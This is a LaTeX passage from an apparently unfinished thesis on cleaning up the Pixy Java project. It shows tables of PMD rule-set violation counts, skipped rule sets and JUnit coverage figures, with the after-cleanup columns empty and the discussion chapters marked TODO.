The PMD version used for these tests was version 5.0.2 (the current version at the time of writing). To avoid changed numbers to do different behavior of subsequent versions, the PMD version was kept at 5.0.2 even if updates were available later.

A description of the rules included in the rule sets is provided in the PMD documentation~\cite{pmd-rulesets}.

Table~\ref{table:pmd-violations} on page~\pageref{table:junit-before} is a comparison of the number of PMD violations in the Pixy project before the author made any changes and after cleanup was finished.

\myTable{
\begin{tabular}{|l|l|r|r|}
\hline
 \bb{Rule set name} & \bb{rule set key} & \bb{before cleanup} & \bb{after cleanup} \\
\hline
 Basic & \texttt{java-basic} & 143 & \\
\hline
 Braces & \texttt{java-braces} & 358 & \\
\hline
 Clone Implementation & \texttt{java-clone} & 5 & \\
\hline
 Code Size & \texttt{java-codesize} & 262 & \\
\hline
 Coupling & \texttt{java-coupling} & 4809 & \\
\hline
 Design & \texttt{java-design} & 739 & \\
\hline
 Empty Code & \texttt{java-empty} & 41 & \\
\hline
 Finalizer & \texttt{java-finalizers} & 0 & \\
\hline
 Import Statements & \texttt{java-imports} & 23 & \\
\hline
 JUnit & \texttt{java-junit} & 274 & \\
\hline
 Migrations & \texttt{java-migrating} & 394 & \\
\hline
 Naming & \texttt{java-naming} & 1245 & \\
\hline
 Strict Exceptions & \texttt{java-strictexception} & 328 & \\
\hline
 String and StringBuffer & \texttt{java-strings} & 180 & \\
\hline
 Security Code Guidelines & \texttt{java-sunsecure} & 2 & \\
\hline
 Type Resolutions & \texttt{java-typeresolution} & 160 & \\
\hline
 Unnecessary & \texttt{java-unnecessary} & 75 & \\
\hline
 Unused Code & \texttt{java-unusedcode} & 24 & \\
\hline
 \bb{Total} &  & \bb{9086} & \bb{} \\
\hline
\end{tabular}
}{Number of PMD violations in the Pixy project before and after cleanup}{table:pmd-violations}

\myTable{
\begin{tabular}{|p{3.1cm}|p{3.1cm}|r|p{4.7cm}|}
\hline
 \bb{Rule set name} & \bb{rule set key} & \bb{violations } & \bb{reason for skipping} \\
\hline
 Android & \texttt{java-android} & 0 & n/a \\
\hline
 Comments & \texttt{java-comments} & 1829 & The ``line too long'' rule is too restrictive. \\
\hline
 Controversial & \texttt{java-controversial} & 2610 & The name says it all. :-)  \\
\hline
 J2EE & \texttt{java-j2ee} & 5 & n/a \\
\hline
 Java Beans & \texttt{java-javabeans} & 558 & n/a \\
\hline
 Jakarta Commons Logging & \texttt{java-logging-jakarta-commons} & 0 & n/a \\
\hline
 Java Logging & \texttt{java-logging-java} & 505 & \texttt{System.out.print} actually is okay for this application.\\
\hline
 Optimization & \texttt{java-optimizations} & 7880 & Too many low-priority ``\ldots could be declared final'' messages.\\
\hline
\end{tabular}
}{PMD rule sets that have been skipped}{table:pmd-skipped}

\paragraph{Note:} As PMD does not provide a count of violations when using the \texttt{text} output format on the command line, the output was piped through \texttt{wc -l} to count the number of violations.

\subsection{JUnit Unit Tests}

The numbers in table~\ref{table:junit-before} on page~\pageref{table:junit-before} show the state of Pixy before and after the modifications. The code coverage has been determined using the Cobertura tool.~\cite{cobertura}

\myTable{
\begin{tabular}{|l|r|r|}
\hline
  \bb{Metric} & \bb{before modification} & \bb{after modification} \\
\hline
  Number of executed tests & 363 & \\
\hline
  Test errors & 0 & \\
\hline
  Test failures & 1 & \\
\hline
  Line coverage & 67\,\% & \\
\hline
  Branch coverage & 44\,\% & \\
\hline
\end{tabular}
}{JUnit test results before the modifications, using Java 1.7 and JUnit 3}{table:junit-before}

\emptydoublepage

\chapter{Discussion (TODO)}

\section{Related Work}

\section{Conclusions}

\section{Further Work}

\emptydoublepage

%--------------------------------------------------------------
\backmatter

% bibliography
\clearpage
\label{sec:literatur}
\bibliography{pixy-thesis}
\emptydoublepage

\listoffigures
\emptydoublepage
%
\listoftables
\emptydoublepage

% index
\markboth{Index}{Index}
\thispagestyle{plain}
\printindex

%--------------------------------------------------------------
\end{document}
